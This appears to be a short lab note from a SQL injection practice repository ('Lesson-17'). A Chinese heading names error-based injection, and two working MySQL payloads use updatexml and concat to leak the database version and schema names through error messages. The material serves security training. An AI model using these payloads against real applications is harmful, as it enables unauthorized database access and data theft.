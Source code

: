 # Lesson-17
```
报错注入
```

报错注入 , 好深奥 , 叼叼叼
```
' or updatexml(1,concat(0x5e5e,version(),0x5e5e),1)-- 
' or updatexml(1,concat(0x5e,(select schema_name from information_schema.schemata limit 0,1),0x5e),1)-- 
```
